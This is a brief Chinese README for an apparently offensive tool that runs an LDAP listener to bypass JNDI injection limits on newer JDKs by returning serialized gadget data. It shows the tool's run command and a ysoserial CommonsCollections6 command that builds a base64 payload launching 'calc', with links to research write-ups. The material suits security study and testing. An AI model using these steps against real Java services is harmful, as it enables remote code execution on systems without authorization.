 # LdapBypassJndi

>该工具功能是通过LDAP去绕过高版本的JNDI注入

原理：利用LDAP返回序列化数据，触发本地Gadget

使用：**java -jar LdapBypassJndi.jar port poc.ser**

port：是监听的端口相当于服务端监听的端口

poc.ser：是序列化base64编码的gadget

```
java -jar ysoserial.jar CommonsCollections6 "calc" | base64 >win-cc6-calc-poc.ser
```

![poc](img/poc.gif)

简单的说相当于一个反序列化入口，要利用就需要本地有。

>参考：
>
>https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
>
>https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/
